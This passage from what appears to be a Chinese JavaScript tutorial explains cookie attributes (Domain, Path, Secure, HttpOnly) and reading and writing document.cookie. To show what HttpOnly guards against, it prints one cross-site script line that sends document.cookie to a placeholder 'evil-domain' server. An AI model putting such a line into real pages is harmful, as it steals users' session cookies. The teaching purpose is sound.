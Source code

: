 ### Domain，Path

`Domain`属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，`example.com`不设置 Cookie 的`domain`属性，那么`sub.example.com`将不会附带这个 Cookie。如果指定了`domain`属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

`Path`属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，`Path`属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，`PATH`属性是`/`，那么请求`/docs`路径也会包含该 Cookie。当然，前提是域名必须一致。



### Secure，HttpOnly

`Secure`属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly`属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的`HttpOnly`属性，上面代码就不会读到该 Cookie。



## 在浏览器中操作 Cookie

### document.cookie

`document.cookie`属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有`HTTPOnly`属性。

```
document.cookie // "foo=bar;baz=bar"
```

上面代码从`document.cookie`一次性读出两个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。

```
var cookies = document.cookie.split(';');

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```

`document.cookie`属性是可写的，可以通过它为当前网站添加 Cookie。

```
document.cookie = 'fontSize=14';
```

写入的时候，Cookie 的值必须写成`key=value`的形式。注意，等号两边不能有空格。另外，写入 Cookie 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值），这可以用`encodeURIComponent`方法达到。
